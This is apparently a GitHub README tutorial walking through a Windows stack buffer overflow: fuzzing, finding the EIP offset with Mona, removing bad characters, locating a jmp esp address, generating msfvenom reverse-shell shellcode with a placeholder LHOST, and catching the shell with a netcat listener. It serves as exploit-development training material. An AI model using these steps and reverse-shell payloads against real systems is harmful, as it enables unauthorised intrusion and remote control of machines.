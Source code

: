 # Buffer Overflow

[1. Fuzz the Application](#fuzz-the-application)
  
[2. Replicating the Crash and Controlling EIP](#replicating-the-crash-and-controlling-eip)

[3. Find Bad Characters](#finding-bad-characters)

[4. Find the Jump Point](#find-the-jump-point) 

[5. Generate the Payload](#generate-the-payload)

[6. Exploit](#exploit)

Set a working directory for Mona from teh Immunity Debugger. Run the following command from the command line in Immunity Debugger

<code>!mona config -set workingfolder c:\mona\%p</code>

![alt-text](src/Mona_Command.png)

## Fuzz the Application

Launch Immunity Debugger as Administrator, and use the "File -> Open" command to bring up the vulnerable application. Notice that this does not run the aplication, it still needs to be executed.  

![alt-text](src/Paused_State.png)

Click the red play button at the top of the window to execute the file

![alt-text](src/Running_State.png)

Use the program located [here](fuzzer.py) to fuzz the application. It will send strings to the application incrementing by 100 characters each time until the app crashes or it reaches a string of length 3000.

<code>python fuzzer.py</code>

![alt-text](src/Fuzzing.png)

Make note of when the script stops/the application crashes and the length of the string that caused the crash.

## Replicating the Crash and Controlling EIP

Use the program located [here](exploit.py) (This is the base script, we will modify it as needed with the information we acquire during the assessment of the application)

Note: that the prefix variable will need to be changed to account for whatever initial option the applications takes.

We then need to generate a string of the length of the string that crashed the application + 400. In our case, the application crashed after the 2000 string, so we will generate our string to be size 2400

<code>/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400</code>

![alt-text](src/Crash_String.png)

Copy this output to the "payload" field in the exploit.py script

Restart the application in the Immunity Debugger and run the exploit.py script.

<code>python exploit.py</code>

The app should crash again, run the following command in Immunity Debugger:

<code>!mona findmsp -distance 2400</code>

Note that we use the same length as the pattern we created earlier.

Mona will display a window with some output in the form of:

> EIP contains normal pattern: ... (offset XXXX)

![alt-text](src/EIP_Offset.png)

We will then need to update our exploit.py script and set the offset variable to the value of the offset. 

Set the retn variable to "BBBB"

Set the payload back to an emptry string

Restart the application in Immunity Debugger and rerun the exploit.py script.

We should see the EIP register is now 42424242 (BBBB)

![alt-text](src/EIP_Overwritten.png)

## Finding Bad Characters

We will generate a bytearray with Mona (Excluding the "\x00" character). Run the following command in Imunity Debugger

<code>!mona bytearray -b "\x00"</code>

Then, generate a string of bad characters that is identical to the bytearray. Use the python code [here](byte_array.py).

![alt-text](src/Byte_Array.png)

Update the payload variable in the exploit.py file with the byte array generated from the python code.

Restart the application and run the exploit.py script again.

Use the following command to print the differences between the bytearray and the values in memory

<code>!mona compare -f C:\path\to\array\bytearray.bin -a [ESP ADDRESS]</code>

![alt-text](src/Bad_Chars.png)

Note: Not every character in the output will be a bad character, we will remove them from the generated bytearray one at a time.

<code>!mona bytearray -b "\x00\xXX\xXX"</code>

Remove these same characters from the payload in exploit.py

Restart the application and rerun the exploit.py file until Mona returns "Unmodified", this lets us know there are no bad characters left.

Note: Keep a file of these bad characters, you will need them to find the jump point.

![alt-text](src/Unmodified.png)

## Find the Jump Point

While the application is crashed or running run the following Mona command in Immunity Debugger with the list of bad caracters found in the previous steps

<code>!mona jmp -r esp -cpb "\x00\xXX\xXX"</code>

This should bring up a window that will have several addresses to several "jmp esp" memory locations.

![lt-text](src/Jump_Addresses.png)

Pick an address and update the retn variable in the exploit.py file. 

Note: Keep in mind the architecture of the host. If the host is running in little endian, then the address needs to be written backwards (i.e. if the address is 123456 then the little endian address would be 654321). Convert the address to HEX by adding a "\x" before every two characters (i.e. if the address is 123456 then the HEX version would be \x12\x34\x56). If we are running in little endian then the final address would be "\x56\x34\x12".

![alt-text](src/Little_Endian.png)

## Generate the Payload

Use <code>msfvenom</code> to generate shellcode.

<code>msfvenom -p windows/shell_reverse_tcp LHOST=[YOUR_IP] LPORT=443 EXITFUNC=thread -b "[BAD_CHARACTERS]" -f py</code>

Copy the output to the payload variable in the exploit.py file

Note: The msfvenom command outputs the shellcode under the name buf = "...", make sure to change the name to payload before executing the script.

Add some space to allow the shellcode to unpack by setting the padding variable to:

<code>padding = "\x90" * 16</code> 

## Exploit

Setup a netcat listener 

<code>nc -lnvp 443</code>

Restart the application and run exploit.py, and we should catch a shell.
